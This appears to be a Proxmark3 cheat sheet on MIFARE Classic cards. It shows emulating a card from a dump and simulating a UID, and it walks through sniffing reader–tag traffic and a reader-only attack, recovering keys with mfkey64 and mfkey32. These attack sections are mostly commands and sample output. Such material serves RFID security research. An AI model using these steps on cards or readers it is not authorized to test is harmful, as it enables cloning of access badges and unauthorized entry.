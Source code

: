 ### Simulate and emulate Mifare card

Emulate from a dump file

```powershell
# convert .bin to .eml
proxmark3> script run dumptoemul -i dumpdata.bin
proxmark3> hf mf eload <file name w/o .eml>
```

Simulate Mifare 1K UID

```powershell
proxmark3> hf mf sim u 353c2aa6
```

### MITM attack

```powershell
hf 14a snoop
# read card
# push button

hf list 14a
089220 |   095108 | Tag | 4d  xx  xx  xx  d3                                              |     | UID
114608 |   125072 | Rdr | 93  70  4d  xx  xx  xx  d3  4f  8d                              |  ok | SELECT_UID
...
525076 |   529748 | Tag | 61  7a  66  18                                                  |     | TAG CHALLENGE
540608 |   549920 | Rdr |50! 87!  8e  ab 3b!  49  5a  1b                                  | !crc| HALT
551188 |   555860 | Tag |d6! 53!  7c 57!                                                  |     | TAG RESPONSE
UID: 4dxxxxxxd3
TAG CHALLENGE: 617a6618
READER CHALLENGE: 50878eab
READER RESPONSE: 3b495a1b
TAG RESPONSE: d6537c57

# crapto1gui or mfkey
cd tools/mfkey
make
./mfkey64
./mfkey64 xxxxxxxx 3b45a45a 7ddb6646 142fc1b9 9195fb3f
```

### Reader only attack

Emulate a MIFARE Classic with a DEADBEEF UID.

```powershell
proxmark3> hf mf sim u deadbeef n 1 x
mf 1k sim uid: de ad be ef , numreads:0, flags:18 (0x12)
#db# Collected two pairs of AR/NR which can be used to extract keyA from reader for sector 1:
#db# ../tools/mfkey/mfkey32 deadbeef 0102xxxx 4d9axxxx 87e7xxxx 06d2xxxx b4a0xxxx
#db# Emulator stopped. Tracing: 1 trace length: 253
#db# 4B UID: deadbeef
```
